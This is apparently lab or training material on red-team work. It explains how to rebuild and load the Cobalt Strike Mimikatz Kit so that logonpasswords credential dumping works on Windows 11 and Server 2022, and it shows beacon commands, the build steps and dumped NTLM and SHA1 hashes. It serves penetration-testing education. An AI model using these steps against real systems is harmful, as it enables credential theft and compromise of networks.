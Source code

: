 You may have noticed instances in the lab where you've tried to run commands such as `sekurlsa::logonpasswords` and `sekurlsa::ekeys`, only to receive the following error:
```
beacon> run hostname
web

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list
```
  

This is simply because the version of Mimikatz built into Cobalt Strike by default is not recent enough to work on later versions of Windows such as 11 and Server 2022.  The Mimikatz Kit allows you to bring alternate builds of Mimikatz into CS to overcome this limitation.

Confusingly, CS is actually bundled with multiple flavours of Mimikatz in both x86 and x64 builds.
```
PS C:\Tools\cobaltstrike\arsenal-kit\kits\mimikatz> ls

    Directory: C:\Tools\cobaltstrike\arsenal-kit\kits\mimikatz

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        05/12/2022     16:57           1046 build.sh
-a----        05/12/2022     16:57         773120 mimikatz-chrome.x64.dll
-a----        05/12/2022     16:57         638464 mimikatz-chrome.x86.dll
-a----        05/12/2022     16:57         813568 mimikatz-full.x64.dll
-a----        05/12/2022     16:57         704000 mimikatz-full.x86.dll
-a----        05/12/2022     16:57        1421824 mimikatz-max.x64.dll
-a----        05/12/2022     16:57        1192960 mimikatz-max.x86.dll
-a----        05/12/2022     16:57         312832 mimikatz-min.x64.dll
-a----        05/12/2022     16:57         276480 mimikatz-min.x86.dll
-a----        05/12/2022     16:57           2661 README.md
-a----        05/12/2022     16:57           1007 script_template.cna
```
  

The DLLs are custom-built to include a Reflective DLL loader (based on [Stephen Fewer's](https://github.com/stephenfewer/ReflectiveDLLInjection) original implementation) and modified code to achieve a smaller file size, which is required to work with Beacon's legacy 1 MB size limit.

The "max" versions include the complete Mimikatz codebase, which can be used with CS 4.6 and above as the 1 MB limit can be removed.  The "full" versions have some code stripped out to reduce the file size (although no official documentation seems to exists that explains exactly what is removed); and the "chrome" versions contains code pertinent to Beacon's `chromedump` command.  Again, no documentation seems to exist that states which parts of the Mimikatz codebase this is, but I suspect it's at least `dpapi::chrome`.

The good news is that the CS dev team are making an effort to keep the version of Mimikatz inside the Mimikatz Kit up-to-date with [Benjamin's repo](https://github.com/gentilkiwi/mimikatz).  This means we can simply build the kit as-is and load it into CS.  This is as simple as running `build.sh` and specifying an output directory.
```
ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/mimikatz> pwd
/mnt/c/Tools/cobaltstrike/arsenal-kit/kits/mimikatz

ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/mimikatz> ./build.sh /mnt/c/Tools/cobaltstrike/mimikatz
[Mimikatz kit] [+] Copying the mimikatz dlls
[Mimikatz kit] [+] Generate the mimikatz.cna from the template file.
[Mimikatz kit] [+] The Mimikatz files are saved in '/mnt/c/Tools/cobaltstrike/mimikatz'
```

Load `mimikatz.cna` via the **Cobalt Strike > Script Manager** menu and clicking the **Load** button.  After loading the CNA, Mimikatz will now function as expected.
```
beacon> logonpasswords

Authentication Id : 0 ; 64753 (00000000:0000fcf1)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/15/2023 3:03:57 PM
SID               : S-1-5-90-0-1
	msv :	
	 [00000003] Primary
	 * Username : WEB$
	 * Domain   : DEV
	 * NTLM     : 4b5aff0a96dfb6c6240340a6800e6f11
	 * SHA1     : bd13b64953a55abddf7b9c1bdcc043a9d88fd955
```